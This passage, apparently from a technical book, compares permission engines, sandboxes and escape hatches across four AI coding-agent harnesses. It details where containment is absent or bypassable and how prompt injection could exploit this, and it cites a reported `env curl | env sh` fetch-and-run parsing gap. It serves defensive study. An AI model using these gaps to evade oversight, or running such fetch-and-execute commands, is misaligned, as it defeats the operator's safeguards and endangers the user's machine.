a `Permission.Service` with three operations -- `ask`, `reply`, `list` -- built on the
Effect runtime's `Deferred` primitive (a resolvable, awaitable promise-like value):



Three source-level findings this diagram encodes that are not stated on the public docs
page: first, evaluation is `findLast()` over the concatenated ruleset -- **last matching
rule wins**, not first, the inverse of Claude Code's stated deny-then-ask-then-allow
fixed order (§1.3); a pattern that matches no rule at all falls through to a hardcoded
default of `{action: "ask", pattern: "*"}`, i.e. the engine's own fail-safe default is
to prompt, not to allow, when nothing else matches. Second, a `"reject"` reply does not
just fail the one pending request -- it walks every other still-pending request *for the
same session* and rejects those too, a session-wide "no" propagation with no equivalent
described in either other harness's documentation. Third, the entire mechanism is
in-process and event-driven, not backed by any OS primitive: the `ask` call blocks on an
`Effect.Deferred` that only resolves when a `reply` call arrives over the same
`EventV2Bridge`/SSE channel this book's [Inter-agent messaging](inter-agent-messaging.md)
page already documents as OpenCode's general live-update bus -- permission approval is
architecturally just another event flowing over the same transport as every other
session update, not a separately privileged control-plane channel.

### 3.4 No OS-level sandbox: a source-verified terminology finding

This session searched the `dev` branch source (`gh api search/code`, scoped to
`repo:anomalyco/opencode`) for every occurrence of the word "sandbox" to check whether
an OS-level enforcement layer comparable to Claude Code's Seatbelt/bubblewrap sandbox
(§1.5) or Copilot CLI's `/sandbox` (§2.3) exists anywhere in OpenCode. It does not --
but the word "sandbox" does appear in two unrelated places in the codebase, and
distinguishing them from a security boundary matters:

- **`packages/codemode/src/tool-runtime.ts` and `packages/codemode/src/values.ts`** use
  `Sandbox`-prefixed type names (`SandboxDate`, `SandboxMap`, `SandboxPromise`,
  `SandboxRegExp`, `SandboxSet`, `SandboxURL`, `SandboxURLSearchParams`) as part of
  `codemode`, an in-process JavaScript-value data-boundary mechanism: it walks values
  crossing between a sandboxed JS interpreter and host tool calls, enforcing depth
  limits, blocking property access, and normalizing non-JSON-serializable types (`Date`,
  `RegExp`, `Map`, `Set`) at that boundary. This is **data-shape sandboxing for an
  embedded script interpreter** -- comparable in spirit to a browser's JS sandbox or a
  Node `vm` context -- not process, filesystem, or network isolation for the `bash`
  tool. A prompt-injected or hostile `bash` call is entirely unaffected by this
  mechanism; it governs only what a `codemode` script can pass across its own internal
  value boundary.
- **`packages/opencode/src/project/project.ts`** uses "sandbox" as a plain noun for **an
  additional directory associated with a project** -- `Project.addSandbox`/
  `removeSandbox`/`sandboxes()` manage a list of filesystem paths (stored in a
  `ProjectTable.sandboxes` database column) tracked alongside a project's main worktree.
  This is directory bookkeeping (closer in spirit to Claude Code's
  `additionalDirectories`, [Configuration](configuration.md) §1.2, than to any isolation
  concept) reusing the same word, not a security mechanism either.

Neither of these is the OS-process/filesystem/network containment that "sandbox" means
in §1.5 and §2.3 above. VERIFIED via direct source read: OpenCode ships no analog of
Seatbelt, bubblewrap, or a network-egress proxy anywhere in the `dev` branch as searched
this session. The permission engine in §3.3 is, architecturally, the *entire*
enforcement boundary OpenCode provides on its own -- there is no second, OS-enforced
layer behind it the way there is for the other two harnesses in this book.

### 3.5 Sources of escape-hatch risk (OpenCode)

Because §3.4's finding means the permission engine is the sole enforcement layer, every
risk that Claude Code's and Copilot CLI's sections above name as a *sandbox-bypass*
escape hatch (§1.6, §2.4) is, for OpenCode, simply the *baseline* condition rather than
a fallback state a user has to specifically trigger:

- **A tool call that resolves to `"allow"` -- whether by explicit config, by the
  documented all-tools-enabled-by-default posture, or by a session-scoped `always`
  approval from a prior prompt -- runs with the full privileges of the OpenCode host
  process itself**, with no OS boundary distinguishing "a command OpenCode approved" from
  "a command run directly in that user's own shell." A prompt-injected instruction that
  reaches a call already covered by an `allow` rule (or by the permissive default) faces
  no secondary containment at all, unlike a comparable Claude Code or Copilot CLI session
  running with its own sandbox enabled.
- **The session-scoped `always` approval (§3.2-§3.3) is itself a standing, if
  time-bounded, escape hatch**: once granted, it is applied automatically to every
  future matching request for the rest of that session via the in-memory `approved`
  array, with no further per-call confirmation -- functionally identical in effect to a
  Claude Code `acceptEdits`-style standing grant, but reached through a single ordinary
  approval click rather than a distinct, named mode switch a user would recognize as
  broadening their exposure.
- **Community guidance (not OpenCode's own docs, and not independently verified by a
  direct fetch of a canonical source this session), surfaced via search, converges on
  the same conclusion this page's own source read supports**: that real isolation for
  OpenCode is expected to come from running the whole process inside a container or VM
  the operator controls, not from anything OpenCode itself enforces at the OS level.
  This is presented here as a reasoned inference consistent with the source-verified
  absence in §3.4, not as an OpenCode-documented recommendation -- flagged as BEST
  CURRENT UNDERSTANDING, UNCONFIRMED on the "OpenCode's own docs recommend this"
  framing specifically, though the absence-of-a-sandbox finding itself is VERIFIED.

---

## 4. DeepSeek Harness

Sources for this section: VERIFIED, fetched 20 August 2026 directly from
`deepseek-ai/deepseek-harness` (`master` branch, developer preview -- see
[Hooks and lifecycle extensibility](hooks-lifecycle-extensibility.md) §4
for this book's fuller introduction to the harness itself, not repeated
here) -- `docs/subsystems/sandbox.md` and
`docs/subsystems/permission-presets.md`.

### 4.1 The sandbox seam: process-level OS confinement, filesystem effects only

DeepSeek Harness's sandbox subsystem is process-level, platform-specific OS
confinement -- not a container or microVM. The docs state the distinction
directly: "containers, microVMs, and remote execution are sibling
implementations of whole capability seams, not providers of `ctx.sandbox`"
-- i.e. those heavier isolation strategies live behind a different,
larger capability seam entirely (most likely `ctx.subprocess`'s `e2b`
provider, documented from the subagent-dispatch angle in [Fan-out
(subagent dispatch)](fan-out.md) §4) rather than being an alternative
backend for the same `ctx.sandbox` interface. The confirmed per-platform
backends are **Landlock plus Bubblewrap (`bwrap`) on Linux**, **Seatbelt on
macOS**, and an **ACL-based restricted-token backend on Windows**.

The sandbox vocabulary is a **per-call policy**, not a fixed global
setting: three modes govern filesystem effects specifically -- `read-only`
(denies writes except required sinks such as `/dev/null`),
`workspace-write` (permits writes under the workspace root and
backend-specific temp areas), and `danger-full-access`, which the docs
document as **bypassing the `ctx.sandbox` seam entirely** rather than as a
permissive parameterisation of it: "a `danger-full-access` consumer spawns
its original argv and does not call `ctx.sandbox`" at all. Enforcement is
self-reported by the backend as either `full` or `partial` (the latter for
older kernel ABI versions or Windows ACL limitations), and the docs are
explicit that consumers requiring an absolute boundary must treat a
`partial` report as a rejection rather than proceeding optimistically.
Network isolation and process-visibility confinement are explicitly out of
this particular seam's vocabulary -- `ctx.sandbox` governs filesystem
effects only, a narrower scope than Claude Code's own two-independently-
toggleable-layer sandbox (§1.5 above), which covers both filesystem *and*
network isolation under one mechanism.

### 4.2 Permission presets: two independent knobs, not one linear scale

Sitting one layer above the sandbox seam itself, a **permission preset**
bundles two independently-settable knobs rather than exposing one linear
scale -- `sandbox/mode` (one of the three filesystem modes above) and
`approval/policy` (whether user consent is required before a tool executes,
e.g. `ask` vs. `never`).



The two shipped default presets pair these knobs as `workspace-write`
(sandbox mode `workspace-write` + policy `ask`) and `danger-full-access`
(sandbox mode `danger-full-access` + policy `never`); custom presets can
bundle any other pairing through config. A reserved preset name, `custom`,
is used purely as a *derived display state* when the current knob values
don't match any declared preset -- clients show it but cannot select it
directly, since it names a combination rather than a stored configuration.

### 4.3 Convergence with Claude Code's own sandbox primitives, and Claude Code's escape hatch naming

Both of §4.1's and §4.2's findings connect directly to §1 above. Claude
Code's own Seatbelt-on-macOS/bubblewrap-on-Linux OS-level sandbox pairing
(§1.5, documented from Anthropic's own docs) uses the *exact same two named
primitives* DeepSeek Harness's docs confirm independently here -- a
genuine, independently-arrived-at convergence on Seatbelt and bubblewrap
specifically as the two platforms' sandboxing primitives of choice among
agent harnesses, not merely a coincidence of vocabulary. DeepSeek's
`danger-full-access` naming is also close enough to Claude Code's
`dangerouslyDisableSandbox` flag (§1.6) and Copilot CLI's
`sandbox.allowBypass` managed setting (§2.4) that §5's synthesis below
treats the "explicit, prominently-named danger/bypass escape hatch"
pattern as a three-way convergence worth stating on its own.

### 4.4 Using DeepSeek's two-axis preset model as a reasoning aid for Claude Code's six permission modes -- BEST CURRENT UNDERSTANDING, UNCONFIRMED

§1.2 above documents Claude Code's six named permission modes as the docs
present them: a flat, enumerated menu (`default`/`manual`, `acceptEdits`,
`plan`, `auto`, `dontAsk`, `bypassPermissions`). DeepSeek's permission-preset
docs (§4.2) state outright that a preset is a *pairing of two independent
knobs* -- `sandbox/mode` and `approval/policy` -- collapsed into one named
surface for the user, with an explicit `custom` label reserved for whatever
combination doesn't match a named preset. **BEST CURRENT UNDERSTANDING,
UNCONFIRMED:** Claude Code's own six modes plausibly factor the same way
internally -- "where code is allowed to run" and "whether the user is asked
first" as two logically separate axes collapsed into one named-mode menu
for UX simplicity -- but Claude Code's own docs present the six modes as a
flat enumeration, never describing them as a factored pair the way
DeepSeek's docs describe presets, so this is an interpretive lens borrowed
from a working example in a different, unrelated harness, not a finding
about Claude Code's actual internal representation. Nothing here should be
read as evidence that Claude Code's engineering team modeled its own modes
this way; it is offered strictly as a way of *thinking about* the six-mode
surface, using DeepSeek's fully transparent internals as a concrete
illustration of one way such a factoring could work.

---

## 5. Synthesis

```mermaid
flowchart TD
    subgraph CC["Claude Code"]
        CC1["Permission rules\n(allow/ask/deny)"] --> CC2["Classifier\n(auto mode only)"]
        CC2 --> CC3["OS sandbox\n(Seatbelt / bubblewrap)"]
        CC3 --> CCExec["Process executes,\ncontained by the OS"]
    end
    subgraph GH["Copilot CLI"]
        G1["Awareness layer\n(--available-tools/--excluded-tools)"] --> G2["Execution layer\n(--allow-tool/--deny-tool/prompt)"]
        G2 --> G3["OS sandbox\n(/sandbox, filesystem+network policy)"]
        G3 --> GExec["Process executes,\ncontained by the OS"]
    end
    subgraph OC["OpenCode"]
        O1["Permission engine\n(Effect-based ask/reply arbiter)"] --> OExec["Process executes with FULL\nhost-process privileges --\nNO further OS containment"]
    end
    subgraph DS["DeepSeek Harness"]
        DS1["Permission preset\n(sandbox/mode x approval/policy,\ntwo independent knobs)"] --> DS2["ctx.sandbox seam\n(Landlock+bwrap / Seatbelt / Windows ACL,\nfilesystem effects only)"]
        DS2 --> DSExec["Process executes, contained by the OS --\nUNLESS danger-full-access,\nwhich bypasses ctx.sandbox entirely"]
    end
```



**All four harnesses converge on the same two-part shape at the rule-evaluation
layer**: an allow/ask/deny classification, plus a second-order mechanism to reduce
per-action prompting once a session has established some trust (Claude Code's
classifier and dropped-broad-rules-on-entry behavior; Copilot CLI's session-persisted
approvals and `--yolo`; OpenCode's session-scoped `always`; DeepSeek's shipped
`workspace-write`/`danger-full-access` presets pre-bundling both knobs at once). Where
they diverge sharply is at exactly the layer this page exists to describe: **Claude
Code, Copilot CLI, and DeepSeek Harness each back their rule layer with a second,
OS-enforced containment boundary that holds even if the rule layer is fooled**
(prompt injection, a classifier miss, a pattern-matching parsing gap like PromptArmor's
`env curl | env sh` finding against Copilot CLI, §2.4). OpenCode's own source, read
directly this session, shows no equivalent second layer at all -- its permission
engine is architecturally complete in itself as an approval-UX mechanism, and
explicitly not framed by its own docs as a security boundary. Two of the three
OS-sandboxing harnesses independently converge on the *specific* underlying platform
primitives, not merely the idea of sandboxing: Claude Code and DeepSeek Harness both
name Seatbelt on macOS and bubblewrap on Linux as their own sandbox backends (§4.3),
a genuine convergence between two unrelated engineering teams on the same low-level
tools rather than a coincidence of vocabulary; Copilot CLI's own `/sandbox` docs name
no equivalent low-level primitive this book has found, describing only "an
operating-system sandbox" generically (§2.3).

**A classifier and an OS sandbox solve different halves of the same prompt-fatigue
problem, and only Claude Code currently ships both.** The classifier (§1.4) substitutes
machine judgment for a fatigued human's rubber-stamping on the *decision of whether an
action should happen at all*; the sandbox (§1.5) instead makes the *consequence of a
wrong decision* smaller, by containing what a wrongly-approved or maliciously-triggered
command can actually reach. Copilot CLI ships the second (its own `/sandbox`, changelog-
traced back at least to mid-2026) but this session found no Copilot CLI equivalent of a
classifier reviewing actions before they run -- its documented model still relies on
per-call rule matching plus the interactive once/session prompt, not a second model call
judging intent. OpenCode ships neither.

**Every documented escape hatch in this book follows the same shape: a fallback that
exists specifically so a legitimate task doesn't dead-end, traded against exactly the
containment the primary mechanism was built to provide.** Claude Code's
`dangerouslyDisableSandbox`, Copilot CLI's `sandbox.allowBypass`, and DeepSeek
Harness's `danger-full-access` preset are, structurally, the same lever under three
different names -- a genuine three-way convergence, across one closed harness, one
enterprise-managed closed harness, and one fully open harness, on making sandbox
opt-out an explicit, scary-named, individually-triggered action rather than a silent
default. Claude Code's and Copilot CLI's versions are both on by default and both
triggered by a failed sandboxed command, requiring a user to decline a bypass prompt
each time to keep the sandbox's guarantee intact; DeepSeek's `danger-full-access` is
instead a named preset a deployment opts into wholesale rather than a per-failure
retry fallback, but the naming convergence -- "danger" appearing in two of the three
harnesses' own literal identifiers, "dangerously" in the third -- is unlikely to be
coincidental vocabulary given how precisely all three name the same underlying
tradeoff. `bypassPermissions`/`--yolo`/`--allow-all` are the same pattern one level up
the stack for Claude Code and Copilot CLI specifically, trading the entire
rule-and-classifier layer for throughput, and both harnesses' own docs name the same
mitigating condition ("only in isolated environments") for the same reason: once
permission-checking is off, the OS sandbox (where one exists) is the only remaining
boundary, and neither harness enables its sandbox by default alongside its own bypass
mode.

---

## Sources

All fetched fresh 2026-08-01 unless noted otherwise.

**Claude Code (authoritative for its own documented behavior only; this repo ships no
implementation source):**
- `https://code.claude.com/docs/en/security` -- §1.1's prompt-injection threat framing,
  the named core/additional protections list, cloud-execution security detail, the
  "no system is completely immune" caveat.
- `https://code.claude.com/docs/en/permission-modes` -- §1.2's six-mode table and
  mode-transition detail, §1.4's full auto-mode classifier description (decision order,
  trust scope, tool-result stripping, subagent three-checkpoint handling, cost/latency,
  the 3-consecutive/20-total fallback thresholds), §1.6's root/sudo bypass-mode refusal
  and protected-paths table.
- `https://code.claude.com/docs/en/permissions` -- §1.3's tiered approval table,
  `Ctrl+E` risk-explainer mechanic, deny-then-ask-then-allow evaluation order, bare vs.
  scoped deny-rule distinction, `PreToolUse` hook precedence relative to rules.
- `https://code.claude.com/docs/en/sandboxing` -- §1.5's full sandbox mechanism
  (filesystem/network independent layers, Seatbelt/bubblewrap platform detail,
  `sandbox.credentials` deny/mask, `autoAllowBashIfSandboxed`), and §1.6's named
  escape-hatch/limitation list (`dangerouslyDisableSandbox`, domain fronting,
  `filesystem.disabled` risk, `allowUnixSockets`/Docker socket, `allowAppleEvents`,
  `enableWeakerNestedSandbox`/`enableWeakerNetworkIsolation`, the
  `excludedCommands`-has-no-managed-lockdown gap).

**GitHub Copilot CLI (authoritative for its own documented behavior and
behavior-change history only; no implementation source exists in this repo):**
- `https://docs.github.com/en/copilot/how-tos/copilot-cli/use-copilot-cli/allowing-tools`
  -- §2.1's directory-scope default, §2.2's awareness-vs-execution permission-layer
  split and the once/session-only interactive prompt description.
- `https://docs.github.com/en/copilot/how-tos/cloud-and-local-sandboxes` -- §2.3's
  local-vs-cloud sandbox distinction and the OS-sandbox framing quote.
- `https://docs.github.com/en/copilot/how-tos/cloud-and-local-sandboxes/configuring-local-sandbox-settings`
  -- §2.3's General/Filesystem/Network tab detail, `sandbox.allowBypass`, MCP/LSP
  sandboxing toggles, macOS keychain default-off behavior.
- `https://docs.github.com/en/copilot/responsible-use/copilot-cli` -- §2.1's exact
  responsible-use wording on destructive-command risk and user accountability.
- `https://github.com/github/copilot-cli` `changelog.md`, fetched via `gh api
  repos/github/copilot-cli/contents/changelog.md` (full 2,898-line file, grepped for
  `sandbox`, `yolo`, `bypass`, `dangerously`) -- §2.3's dated sandbox-feature history
  (1.0.57 earliest sandboxed-shell reference this session's fetch reached, 1.0.70
  `--sandbox`/`--no-sandbox` flags, 1.0.74 first-run sandbox splash, 1.0.77 MDM-enforced
  managed sandbox policy and the sandbox-tightens-never-loosens managed-floor statement),
  §2.4's `/yolo`/`/allow-all` unification and footer-indicator history, and the
  sandbox-disables-on-unconditional-autopilot-approval coupling.
- `https://www.promptarmor.com/resources/github-copilot-cli-downloads-and-executes-malware`
  -- §2.4's third-party-reported `env curl | env sh` read-only-auto-allow parsing gap
  and GitHub's quoted 2026-02-26 response classifying it as a known, unremediated issue.
  Cited as an independent security-research finding, explicitly not as GitHub's own
  documented position.

**OpenCode (authoritative for its own documented behavior AND, unlike the two harnesses
above, its own real implementation; `dev` branch, not a stable release tag):**
- `https://opencode.ai/docs/permissions/` -- §3.1's stated approval-not-security-boundary
  framing and §3.2's once/always/reject approval-outcome description.
- `https://github.com/anomalyco/opencode`, `dev` branch, fetched via `gh api
  repos/anomalyco/opencode/contents/packages/opencode/src/permission/index.ts?ref=dev`
  (full file contents) -- §3.3's source-verified `Permission.Service` architecture
  (`ask`/`reply`/`list`, `Deferred`-based blocking, `findLast()` last-match-wins
  evaluation, the "ask with no match" fail-to-`ask` default, session-wide reject
  propagation, `Event.Asked`/`EventV2Bridge` wiring into the SSE bus documented in
  [Inter-agent messaging](inter-agent-messaging.md)).
- `gh api -X GET search/code -f q='"sandbox" repo:anomalyco/opencode extension:ts'` and
  direct fetches of `packages/codemode/src/tool-runtime.ts` and
  `packages/opencode/src/project/project.ts` (both `dev` branch, via `gh api
  repos/anomalyco/opencode/contents/...?ref=dev`) -- §3.4's source-verified finding that
  "sandbox" in OpenCode's own codebase names an in-process JS-value data boundary
  (`codemode`) and a project-directory-tracking list (`Project.addSandbox`), not OS-level
  process/filesystem/network isolation, and that no such OS-level mechanism exists
  anywhere in the searched source.

**Not consulted this session, and therefore not cited above as a source of any factual
claim:** `code.claude.com/docs/en/sandbox-environments` and
`code.claude.com/docs/en/auto-mode-config` (named in-line only as cross-referenced page
titles the sandboxing/permission-modes docs point to, not independently fetched);
`docs.github.com`'s dedicated cloud-sandbox technical page beyond the access-policy
framing in §2.3; several community/blog search results surfaced by `WebSearch`
(`copilot-cli.genisisiq.com`, `agent-safehouse.dev`, `unboundforce.dev`,
`deepwiki.com`) that were used only to locate the leads above and are not themselves
cited as sources of any claim in this page, per this project's standing rule against
citing an unfetched search snippet as grounding.

**DeepSeek Harness (authoritative for its own documented behavior; fetched 20 August
2026, `master` branch of `deepseek-ai/deepseek-harness`, developer preview at time of
fetch -- see [Hooks and lifecycle extensibility](hooks-lifecycle-extensibility.md) §4's
Sources for the full repository-metadata citation, not repeated here):**
- `docs/subsystems/sandbox.md` -- §4.1's `ctx.sandbox` seam description in full: the
  process-level/not-container-or-microVM framing, the Landlock+Bubblewrap/Seatbelt/
  Windows-ACL per-platform backends, the three filesystem modes
  (`read-only`/`workspace-write`/`danger-full-access`), the `danger-full-access`
  bypasses-the-seam-entirely finding, the `full`/`partial` self-reported enforcement
  levels, and the filesystem-effects-only scope boundary.
- `docs/subsystems/permission-presets.md` -- §4.2's two-independent-knob preset model
  (`sandbox/mode` x `approval/policy`), the two shipped default presets, and the
  `custom` reserved display-only preset name.
